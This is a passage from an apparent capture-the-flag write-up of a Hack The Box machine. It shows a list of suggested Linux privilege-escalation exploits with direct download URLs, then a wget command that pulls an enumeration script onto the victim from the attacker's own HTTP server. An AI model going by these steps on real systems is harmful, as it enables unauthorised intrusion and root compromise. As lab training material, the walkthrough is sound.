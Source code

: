 ```
[+] [CVE-2017–1000112] NETIF_F_UFO
Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
Tags: ubuntu=14.04(kernel:4.4.0-*)|16.04(kernel:4.8.0-*)
Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included

[+] [CVE-2017–1000253] PIE_stack_corruption
Details: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt
Tags: RHEL=7(kernel:3.10)
Download URL: https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

[+] [CVE-2009–1185] udev
Details: https://www.exploit-db.com/exploits/8572/
Tags: ubuntu=8.10|9.04
Download URL: https://www.exploit-db.com/download/8572
Comments: Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed 
[+] [CVE-2009–1185] udev 2
Details: https://www.exploit-db.com/exploits/8478/
Download URL: https://www.exploit-db.com/download/8478
Comments: SSH access to non privileged user is needed. Version<1.4.1 vulnerable but distros use own versioning scheme. Manual verification needed

[+] [CVE-2017–1000367] Sudoer-to-root
Details: https://www.sudo.ws/alerts/linux_tty.html
Tags: RHEL=7(sudo:1.8.6p7)
Download URL: https://www.qualys.com/2017/05/30/cve-2017-1000367/linux_sudo_cve-2017-1000367.c
Comments: Needs to be sudoer. Works only on SELinux enabled systems

[+] [CVE-2017–1000367] sudopwn
Details: https://www.sudo.ws/alerts/linux_tty.html
Download URL: https://raw.githubusercontent.com/c0d3z3r0/sudo-CVE-2017-1000367/master/sudopwn.c
Comments: Needs to be sudoer. Works only on SELinux enabled systems
```
Again we have a bunch of possible exploits but I’m not done enumerating, I’m going to upload LinEnum.sh to enumerate the entire system. I started a python HTTP server listening on port 8080 on my local machine
```
root@kali:~/Downloads/LinEnum# ls
CHANGELOG.md CONTRIBUTORS.md LinEnum.sh README.md
root@kali:~/Downloads/LinEnum# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 …
```
and downloaded the LinEnum.sh file into the temp folder of the victim.
```
www-data@apocalyst:/tmp$ wget http://10.10.14.122:8080/LinEnum.sh
wget http://10.10.14.122:8080/LinEnum.sh
 — 2017–11–23 23:53:22 —  http://10.10.14.122:8080/LinEnum.sh
Connecting to 10.10.14.122:8080… connected.
HTTP request sent, awaiting response… 200 OK
Length: 43283 (42K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh 100%[===================>] 42.27K 169KB/s in 0.2s 

2017–11–23 23:53:23 (169 KB/s) — ‘LinEnum.sh’ saved [43283/43283]

www-data@apocalyst:/tmp$ ls -la
ls -la
total 152
drwxrwxrwt 10 root root 4096 Nov 23 23:53 .
drwxr-xr-x 23 root root 4096 Jul 26 12:37 ..
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .ICE-unix
drwxrwxrwt 2 root root 4096 Nov 23 16:26 .Test-unix
```